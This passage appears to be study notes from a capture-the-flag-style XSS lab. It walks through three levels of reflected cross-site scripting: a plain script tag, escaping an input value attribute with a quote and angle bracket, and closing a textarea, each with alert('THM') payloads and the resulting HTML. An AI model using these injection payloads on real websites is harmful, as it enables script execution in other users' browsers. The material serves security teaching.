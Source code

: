### Level One: Basic Injection

**Scenario**: User input reflected directly in HTML content

**Input Form**: Name field that displays entered value on the page

**Payload**:
```javascript
<script>alert('THM');</script>
```

**How it works**:
- Input is placed directly into HTML content
- Browser interprets `<script>` tags and executes JavaScript
- No escaping or filtering prevents execution

**Page Source Result**:
```html
<div>Hello <script>alert('THM');</script></div>
```

### Level Two: Input Tag Escape

**Scenario**: User input reflected inside an input tag's value attribute

**Context**:
```html
<input type="text" value="USER_INPUT_HERE">
```

**Problem**: Script tags don't execute within input value attributes

**Solution**: Escape the input tag first
```javascript
"><script>alert('THM');</script>
```

**Breakdown**:
- `">` closes the value attribute and input tag
- `<script>alert('THM');</script>` executes outside the input context

**Result**:
```html
<input type="text" value=""><script>alert('THM');</script>
```

### Level Three: Textarea Tag Escape

**Scenario**: User input reflected inside a textarea element

**Context**:
```html
<textarea>USER_INPUT_HERE</textarea>
```

**Solution**: Close the textarea tag before script execution
```javascript
</textarea><script>alert('THM');</script>
```
